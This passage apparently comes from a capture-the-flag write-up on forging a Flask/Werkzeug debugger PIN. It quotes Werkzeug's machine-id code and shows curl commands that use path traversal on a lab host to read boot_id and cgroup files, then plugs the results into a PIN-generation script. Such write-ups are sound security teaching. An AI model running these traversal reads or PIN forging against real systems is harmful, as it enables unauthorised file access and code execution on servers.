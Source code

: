 ```
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
...[snip]...

```

It starts with an empty string, and then tried to append both the contents of `/etc/machine-id` and `/proc/sys/kernel/random/boot_id`. Then there’s a section on containers so it tries to append part of `/proc/self/cgroup`.

`/etc/machine-id` isn’t found, but the other two are:

```

oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads/..//proc/sys/kernel/random/boot_id --ignore-content-length 
a97273a3-1bd3-4436-91ae-ab0973b75d73
oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads/..//proc/self/cgroup --ignore-content-length 
12:hugetlb:/docker/0b91b5646d729be7c8657d19a6140c946b56fe35bd7cd0e10d2d18ecea9d81c8
...[snip]...

```

From the second file there, I need only the first line, from the last `/` to the end. The script is now set up:

```

...[snip]...
probably_public_bits = [
    'root',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892360',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'a97273a3-1bd3-4436-91ae-ab0973b75d730b91b5646d729be7c8657d19a6140c946b56fe35bd7cd0e10d2d18ecea9d81c8'# get_machine_id(), /etc/machine-id
]
...[snip]...

```

